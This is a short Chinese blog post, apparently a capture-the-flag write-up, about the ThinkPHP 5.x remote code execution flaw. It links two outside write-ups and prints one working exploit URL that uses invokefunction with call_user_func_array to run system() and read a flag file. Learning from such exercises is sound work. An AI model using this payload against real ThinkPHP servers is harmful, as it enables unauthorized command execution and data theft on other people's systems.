


**关于ThinkPHP的漏洞利用和语句执行**
<!-- more -->

因为对漏洞了解太少，只能直接搜RCE
然后出现了ThinkPHP V5之前的REC漏洞
看不懂啊。。。
[漏洞复现](https://www.cnblogs.com/backlion/p/10106676.html)



[得到flag的网站](https://blog.csdn.net/qq_40884727/article/details/101381071)

```php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20%27system("cat%20../../../flag");%27
```